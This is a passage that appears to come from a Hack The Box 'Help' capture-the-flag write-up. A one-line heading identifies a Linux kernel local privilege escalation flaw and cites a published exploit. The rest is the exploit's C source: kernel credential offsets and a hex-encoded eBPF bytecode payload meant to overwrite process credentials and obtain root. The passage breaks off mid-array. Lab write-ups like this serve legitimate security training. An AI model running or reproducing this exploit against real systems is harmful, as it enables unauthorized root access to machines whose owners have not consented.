![](/images/hackthebox/help/23.png)
#### That kernel version is vulnerable to a local privilege escalation vulnerability and there's an [exploit](https://www.exploit-db.com/exploits/44298) published for it.
`exploit.c` :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <fcntl.h>
#include <string.h>
#include <linux/bpf.h>
#include <linux/unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <sys/stat.h>
#include <stdint.h>

#define PHYS_OFFSET 0xffff880000000000
#define CRED_OFFSET 0x5f8
#define UID_OFFSET 4
#define LOG_BUF_SIZE 65536
#define PROGSIZE 328

int sockets[2];
int mapfd, progfd;

char *__prog = 	"\xb4\x09\x00\x00\xff\xff\xff\xff"
		"\x55\x09\x02\x00\xff\xff\xff\xff"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x18\x19\x00\x00\x03\x00\x00\x00"
		"\x00\x00\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x00\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x06\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x01\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x07\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x02\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x08\x00\x00\x00\x00\x00\x00"
```